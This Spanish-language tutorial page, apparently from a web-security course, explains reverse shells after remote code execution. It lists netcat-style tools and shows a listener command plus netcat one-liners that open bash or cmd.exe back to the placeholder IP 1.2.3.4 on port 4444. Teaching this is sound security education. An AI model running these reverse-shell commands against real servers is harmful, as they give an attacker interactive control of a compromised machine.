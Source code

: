 ```yaml
---
title : "Reverse Shell"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 060
---
```


En el capítulo anterior vimos cómo ejecutar comandos de manera remota en un servidor, sin tener acceso a una
terminal. Esto es muy útil en un comienzo, pero rápidamente se vuelve evidente la lentitud, torpeza y limitaciones
que significa este medio. Sería mucho más cómodo si de alguna forma se pudiese obtener acceso a una terminal,
o _shell_, con la cual ejecutar comandos de manera más directa, y sin tener que pasar por todo el proceso
remoto.

Afortunadamente existen las shell reversas: a diferencia de una shell normal, en la cual el cliente se conecta
a un servidor escuchando por conexiones, una shell reversa implica que el cliente está a la espera de una
conexión, y es el servidor quien la inicia. Asumiendo que ya tienen RCE, es posible iniciar una reverse shell con
un par de comandos, aunque puede ser necesario evadir algún filtro, firewall o antivirus.

Los pasos para levantar una reverse shell son los siguientes:
1. El atacante espera por conexiones TCP en algún puerto específico (por ejemplo 4444).

2. El servidor inicia una conexión TCP con el atacante en el puerto especificado.

3. Una vez establecida la conexión, el servidor levanta una shell
   (como `sh` o `bash` en Linux, y `cmd.exe` o `powershell.exe` en Windows).

4. Todos los mensajes del atacante son redirigidos a la entrada estándar de la shell, y la salida estándar de
esta es redirigida por la conexión hacia el atacante.

## Herramientas

En términos generales, cualquier programa que permita escuchar e iniciar comunicaciones TCP, y luego redirigir
las entradas y salidas estándar, debería funcionar. Los más comunes son:
* Linux: `nc`, `ncat`, `netcat`, `socat`
* Windows: `nc.exe`

También se puede iniciar reverse shells con casi todos los lenguajes de programación.
[Aquí](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
pueden encontrar documentación sobre muchas técnicas distintas de iniciar reverse shells.

## Ejemplo

### Cliente

Para empezar a escuchar en el puerto `4444` por conexiones TCP, puede usar `nc` de la siguiente forma:

    nc -lvp 4444

También pueden usar [pwncat](https://github.com/calebstewart/pwncat), que está hecho para reverse shells,
y tiene más características, como autocompletado con TAB.

    pwncat --listen --port 4444

### Servidor

En el servidor usualmente no se tiene control de los programas instalados, por lo que se tendrán que adaptar
a lo que encuentren ahí. De todas formas, casi siempre está instalado `nc` o `nc.exe`. Para iniciar la conexión
a la IP `1.2.3.4` y puerto `4444`, levantar la shell y redirigir la entrada y salida estándar, se ejecuta lo siguiente:

    nc -c /bin/bash 1.2.3.4 4444
    nc.exe 1.2.3.4 4444 -e cmd.exe

### Prueba de Concepto

Ejecutamos lo descrito anteriormente, con una misma máquina funcionando como cliente y servidor. En el lado
del servidor no se ve nada muy interesante:

![Reverse Shell Server](../reverse-shell-server.png)

Pero el cliente ahora tiene una shell nueva:

![Reverse Shell Client](../reverse-shell-client.png)
